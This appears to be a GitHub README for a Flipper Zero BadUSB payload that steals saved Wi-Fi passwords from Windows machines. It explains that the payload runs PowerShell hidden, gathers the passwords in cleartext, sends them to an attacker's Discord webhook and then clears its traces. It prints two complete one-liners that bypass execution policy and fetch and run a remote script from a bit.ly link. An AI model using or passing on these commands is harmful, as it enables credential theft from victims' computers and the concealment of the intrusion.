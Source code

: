 # WLAN Windows Password - BADUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

## Disclaimer

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/gif/flipper_zero%20(15).gif?raw=true" width="209" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png?raw=true" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsENG | iex
```

ITA 🇮🇹
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm bit.ly/WindowsWiFiPasswordsITA | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
